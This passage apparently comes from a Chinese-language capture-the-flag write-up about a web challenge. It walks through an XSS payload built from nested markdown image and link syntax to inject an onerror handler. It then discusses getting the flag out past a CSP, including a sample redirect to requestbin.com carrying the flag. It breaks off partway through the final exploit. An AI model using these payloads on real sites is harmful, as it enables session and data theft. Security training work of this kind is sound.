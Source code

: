 ```python
                result = re.sub(pattern, replace, result, flags=flags)

        return result

    # handlers
...

def parse_markdown(text):
    parser = MarkdownParser()
    return parser.parse(text)

```

可以看到有巢狀解析的功能，這種功能通常都會有一些問題，可以嘗試以下 payload

```
![ouo[](2)](123 xxx=999))
```

就會發現我們能成功控制 img 的 attribute

```
<img src="2" alt="ouo<a href=" 123="" xxx="999&quot;">
```

因此我們就可以嘗試加上 onerror 跟 src

```
![ouo[](2)](123 onerror=alert`` src=x))
```

便可成功達到 XSS

```
<img src="2" alt="ouo<a href=" 123="" onerror="alert``">
```

Bot 在做的事情就是創建一個具有 flag 的文章，因此我們只要 `fetch('/')` 就可以成功拿到 flag。

接下來這題具有以下的 CSP，因此不能透過 fetch 等方式將 flag 傳出去。

```
<meta http-equiv="Content-Security-Policy" content="connect-src 'self';">
```

這時候可以考慮以下方式
1. 透過 redirect 把 flag 傳出去
2. 透過 img 的 src 把 flag 傳出去
3. 透過 `WebRTC` 把 flag 傳出去
4. 透過 `DNS prefetch` 把 flag 傳出去

第一個做法因為有透過 chromium policy 限制 `URLAllowlist` 讓他不能存取其他的網頁，就無法透過 `window.location = "http://requestbin.com?a=flag"` 的方式。

可以嘗試第二或第三種方式，這邊採取第三種方式，並且搭配 dns log 就可以成功從 dns log 中拿到 flag，最終 exploit 過程如下：

第一步，建立 XSS note

```
![ouo[](2)](onerror=a=`'`+location;[]['constructor']['constructor']`_${a}```  src=x))
```
